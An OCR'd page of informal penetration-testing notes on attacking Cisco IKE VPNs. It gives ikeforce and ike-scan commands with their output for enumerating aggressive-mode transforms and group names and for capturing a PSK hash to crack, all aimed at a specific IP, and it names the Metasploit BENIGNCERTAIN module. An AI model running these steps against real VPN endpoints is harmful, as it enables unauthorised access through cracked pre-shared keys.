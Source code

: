 
  * Ike scans (FOR INTERNAL NETWORKS)
  ```
  /home/dturner/ikeforce-march17# python2.7 ikeforce.py 163.166.150.214 -a -s 1
  that will enumerate all the aggressive mode transforms
  ============================================================================================
  Accepted (AM) Transform Sets
  ============================================================================================
  | 5 : 3DES-CBC | 2 : SHA | 1 : PSK | 2 : alternate 1024-bit MODP group |
  --------------------------------------------------------------------------------------------
  ============================================================================================
  Shutting down server
  ```
  then I take that and try to get a valid hash to crack  
  u need a correct id to do that tho, there used to be a few ways of doing it but it’s all really old stuff now  
  I usually check anyway though with the above tool  

  then use ike-scan to get the hash  
  usually the best way to get the id these days is to look at the ssl vpn and it’s usually on that page
  other than that there are some other bugs in cisco ike, but they are tricky to check for  
  there’s the benigncertain info disclosure which u can easily check with msf
  just be careful of the false positives on that module
  if u don’t see valid looking plaintext data it’s not vulnerable
  I’ll run through it in a min on bauer
  ```
  python2.7 ikeforce.py 163.166.150.214 -e -w ./wordlists/groupnames.dic -s 1 -t 5 2 1 2
  [+]Program started in Enumeration Mode
  [+]Checking for possible enumeration techniques
  Analyzing initial response. Please wait, this can take up to 15 seconds...

  [+]Cisco Device detected
  [-]Not vulnerable to DPD group name enumeration
  [-]Not vulnerable to multiple response group name enumeration. Device is fully patched. Exiting...

  Shutting down server
  ```
  there’s also some issues u can check for on the ssl vpn side  
  it’s mainly cisco you’ll see  
  ah actually none with ike have ssl vpn as well  
  so the final part would be this:  
  ```
  ike-scan 163.166.150.214 -M -A --id=test
  Starting ike-scan 1.9.4 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
  163.166.150.214 Aggressive Mode Handshake returned
         HDR=(CKY-R=05c09f9f46cff22f)
         SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
         VID=12f5f28c457168a9702d9fe274cc0100 (Cisco Unity)
         VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
         VID=f007388246cef22f005a112caef0b26c
         VID=09002689dfd6b712 (XAUTH)
         KeyExchange(128 bytes)
         ID(Type=ID_IPV4_ADDR, Value=163.166.150.214)
         Nonce(20 bytes)
         Hash(20 bytes)

  Ending ike-scan 1.9.4: 1 hosts scanned in 0.033 seconds (29.98 hosts/sec).  1 returned handshake; 0 returned notify
  ```
  but if u don’t have a valid id then it’s pointless because the hash won’t crack   
  ```
  scanner/ike/cisco_ike_benigncertain
  ```
  ^ that’s the msf module  